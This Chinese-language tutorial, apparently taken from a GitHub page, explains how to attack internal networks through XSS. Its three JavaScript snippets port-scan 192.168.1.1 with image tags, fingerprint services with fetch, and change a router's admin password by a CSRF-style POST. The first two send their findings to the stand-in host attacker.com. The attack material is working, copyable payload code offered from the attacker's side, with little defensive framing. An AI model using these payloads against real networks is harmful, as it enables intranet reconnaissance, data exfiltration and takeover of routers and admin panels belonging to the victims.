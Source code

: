 ### XSS 怎么打内网

**1. 端口扫描**

这是最基础也最常见的利用方式。攻击者可以通过 JavaScript 构造请求（如 `<img>` 或 `<iframe>` 标签），尝试加载内网 IP 地址和端口，并根据加载成功或失败来判断端口是否开放

**基本思路：**

- **加载 `<img>` 标签**： `<img>` 标签的 `src` 属性可以指向内网 IP 和端口。如果图片能够加载成功，就说明该端口是开放的。可以通过 `onerror` 和 `onload` 事件来判断加载结果

  **示例代码：**

  ```javascript
  const targetIp = '192.168.1.1';
  const targetPorts = [80, 22, 445, 8080];
  
  targetPorts.forEach(port => {
    const img = new Image();
    img.onload = () => {
      // 端口开放
      console.log(`Port ${port} on ${targetIp} is open.`);
      // 将结果发送回攻击者服务器
      fetch(`http://attacker.com/log?ip=${targetIp}&port=${port}&status=open`);
    };
    img.onerror = () => {
      // 端口关闭或无法访问
      console.log(`Port ${port} on ${targetIp} is closed.`);
    };
    img.src = `http://${targetIp}:${port}`;
  });
  ```

- **加载 `<iframe>` 标签**： `<iframe>` 标签可以用来加载内网页面。如果加载成功，攻击者可以通过 JavaScript 获取页面的部分内容（但受同源策略限制）

**2. 服务指纹识别**

通过上一步的端口扫描，攻击者可以确定内网中有哪些服务是开放的。接下来，可以通过 JavaScript 发送 AJAX 请求到这些服务，然后根据响应头（如 `Server`、`X-Powered-By`）或页面内容来识别服务的类型和版本

**示例代码：**

```javascript
const targetUrl = 'http://192.168.1.1:8080';

fetch(targetUrl)
  .then(response => {
    // 检查响应头，获取服务信息
    const serverHeader = response.headers.get('Server');
    console.log(`Server on ${targetUrl} is: ${serverHeader}`);
    // 将结果发送回攻击者服务器
    fetch(`http://attacker.com/log?url=${targetUrl}&server=${serverHeader}`);
  })
  .catch(error => {
    console.error(`Could not connect to ${targetUrl}`);
  });
```

**3. 攻击内网路由器或管理后台**

许多内网路由器和管理系统都存在默认密码或已知漏洞。攻击者可以利用 XSS 漏洞，在受害者浏览器中构造并发送针对这些设备的请求

**示例：利用 CSRF 漏洞修改路由器密码**

假设某个路由器修改密码的请求是：`POST /admin/password_change`，并带上参数 `new_password=123456`。 攻击者可以通过 JavaScript 构造一个表单并提交，或者直接用 `fetch` 发送请求

**示例代码：**

```javascript
// 假设路由器IP是 192.168.1.1，并且修改密码的路径是 /admin/change_password
const routerIp = '192.168.1.1';
const newPassword = 'hacked_by_xss';

const formData = new FormData();
formData.append('password', newPassword);

fetch(`http://${routerIp}/admin/change_password`, {
  method: 'POST',
  body: formData
}).then(() => {
  console.log('Router password changed!');
});
```
